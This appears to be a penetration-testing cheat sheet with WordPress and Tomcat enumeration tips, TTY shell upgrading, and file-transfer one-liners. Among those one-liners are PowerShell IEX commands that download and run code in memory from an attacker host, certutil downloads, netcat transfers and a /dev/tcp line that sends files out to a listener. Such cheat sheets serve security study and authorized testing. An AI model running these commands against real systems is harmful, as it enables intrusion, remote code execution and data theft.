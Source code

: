 ### WordPress Enum with wpscan
```
wpscan --url $RHOST -e vt,tt,u,ap
```

### Tomcat Apache server
If the server is running Apache Tomcat (check for version obviously)\
Always check for ```/admin```, ```/manager``` and ```/manager/html``` to see if we can upload and deploy ```.war``` files.


## Shell Upgrading
```
python -c "import pty;pty.spawn('/bin/bash')"
^Z
stty echo -raw;fg
reset/enter
export TERM=xterm
```

## Transfer Files
### using Python http server
```
python3 -m http.server 8888
```
To get file:
```
curl $LHOST:8888/file -o outfile
wget $LHOST:8888/file
```
### Using netcat
```
nc -w 3 $RHOST 8888 < outfile
```
To get file
```
nc -lp 8888 > outfile
```
### Windows Powershell
```powershell (New-Object Net.WebClient).DownloadFile('$LHOST/file', '$PATH\outfile')``` <- download file to disk\
```powershell IWR -uri http://$LHOST/file -o C:/Windows/Temp/file``` <- download file to disk\
```powershell "IEX(New-Object Net.WebClient).downloadString('$LHOST/file')"``` <- download and exec on memory\
```powershell "IEX( IWR $LHOST/$FILE -UseBasicParsing)"``` <- download and exec on memory

### Certutil
```
certutil.exe -urlcache -split -f "$RHOST:$RPORT/file" outfile.zip
```

### curl
```
curl $RHOST -o outfile
```

### When everything else fails on Linux, no nc, no python, no scp
On remote host:
```
cat file > /dev/tcp/$LHOST/$LPORT
```

On local host:
```
nc -lvnp $LPORT > file
```
```